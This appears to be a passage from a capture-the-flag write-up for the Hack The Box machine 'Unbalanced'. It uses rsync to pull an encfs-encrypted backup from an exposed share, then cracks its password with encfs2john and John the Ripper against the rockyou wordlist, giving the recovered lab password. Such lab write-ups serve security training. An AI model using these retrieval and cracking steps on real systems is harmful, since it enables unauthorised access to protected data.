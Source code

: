 there appears to be an `encfs` encrypted backup folder residing on the machine

if we can list its contents we might be able to pull down the directory

```bash
> rsync -av rsync://unbalanced.htb/conf_backups conf_backups
```
```
ls -la conf_backups/
total 632
drwxr-xr-x 2 elliot elliot   4096 Apr  4 11:05 .
drwxr-xr-x 5 elliot elliot   4096 Aug 12 00:19 ..
-rw-r--r-- 1 elliot elliot    154 Apr  4 11:05 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r-- 1 elliot elliot     56 Apr  4 11:05 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r-- 1 elliot elliot    190 Apr  4 11:05 2VyeljxHWrDX37La6FhUGIJS
-rw-r--r-- 1 elliot elliot    537 Apr  4 11:05 3cdBkrRF7R5bYe1ZJ0KYy786
-rw-r--r-- 1 elliot elliot    386 Apr  4 11:05 3E2fC7coj5,XQ8LbNXVX9hNFhsqCjD-g3b-7Pb5VJHx3C1
-rw-r--r-- 1 elliot elliot    560 Apr  4 11:05 3xB4vSQH-HKVcOMQIs02Qb9,
-rw-r--r-- 1 elliot elliot    275 Apr  4 11:05 4J8k09nLNFsb7S-JXkxQffpbCKeKFNJLk6NRQmI11FazC1
-rw-r--r-- 1 elliot elliot    463 Apr  4 11:05 5-6yZKVDjG4n-AMPD65LOpz6-kz,ae0p2VOWzCokOwxbt,
-rw-r--r-- 1 elliot elliot   2169 Apr  4 11:05 5FTRnQDoLdRfOEPkrhM2L29P
-rw-r--r-- 1 elliot elliot    238 Apr  4 11:05 5IUA28wOw0wwBs8rP5xjkFSs
-rw-r--r-- 1 elliot elliot   1277 Apr  4 11:05 6R1rXixtFRQ5c9ScY8MBQ1Rg
-rw-r--r-- 1 elliot elliot    108 Apr  4 11:05 7-dPsi7efZRoXkZ5oz1AxVd-Q,L05rofx0Mx8N2dQyUNA,
-rw-r--r-- 1 elliot elliot   1339 Apr  4 11:05 7zivDbWdbySIQARaHlm3NbC-7dUYF-rpYHSQqLNuHTVVN1
-rw-r--r-- 1 elliot elliot   1050 Apr  4 11:05 8CBL-MBKTDMgB6AT2nfWfq-e
-rw-r--r-- 1 elliot elliot     29 Apr  4 11:05 8e6TAzw0xs2LVxgohuXHhWjM
-rw-r--r-- 1 elliot elliot    152 Apr  4 11:05 8XDA,IOhFFlhh120yl54Q0da
-rw-r--r-- 1 elliot elliot   5721 Apr  4 11:05 9F9Y,UITgMo5zsWaP1TwmOm8EvDCWwUZurrL0TwjR,Gxl0
-rw-r--r-- 1 elliot elliot   2980 Apr  4 11:05 A4qOD1nvqe9JgKnslwk1sUzO
-rw-r--r-- 1 elliot elliot   1138 Apr  4 11:05 a4zdmLrBYDC24s9Z59y-Pwa2
-rw-r--r-- 1 elliot elliot    443 Apr  4 11:05 Acv0PEQX8vs-KdK307QNHaiF
-rw-r--r-- 1 elliot elliot    935 Apr  4 11:05 B6J5M3OP0X7W25ITnaZX753T
-rw-r--r-- 1 elliot elliot   3643 Apr  4 11:05 c9w3APbCYWfWLsq7NFOdjQpA
-rw-r--r-- 1 elliot elliot    288 Apr  4 11:05 ,CBjPJW4EGlcqwZW4nmVqBA6
-rw-r--r-- 1 elliot elliot   1521 Apr  4 11:05 Chlsy5ahvpl5Q0o3hMyUIlNwJbiNG99DxXJeR5vXXFgHC1
-rw-r--r-- 1 elliot elliot    332 Apr  4 11:05 cwJnkiUiyfhynK2CvJT7rbUrS3AEJipP7zhItWiLcRVSA1
-rw-r--r-- 1 elliot elliot   2592 Apr  4 11:05 dF2GU58wFl3x5R7aDE6QEnDj
-rw-r--r-- 1 elliot elliot   1268 Apr  4 11:05 dNTEvgsjgG6lKBr8ev8Dw,p7
-rw-r--r-- 1 elliot elliot   2359 Apr  4 11:05 ECXONXBBRwhb5tYOIcjjFZzh
-rw-r--r-- 1 elliot elliot   1297 Apr  2 09:06 .encfs6.xml
```

looks like a lot of encrypted files

fortunately, `.encfs6.xml` is included, which contains the hash key we will crack and use to decrypt the backup with `encfs2john.py`
```bash
> sudo /opt/JohnTheRipper/run/encfs2john.py conf_backups/ > encfs6.xml.john
> sudo john --wordlist:/opt/rockyou.txt encfs6.xml.john
```
the password we get is `bubblegum`

now we can proceed with decryption
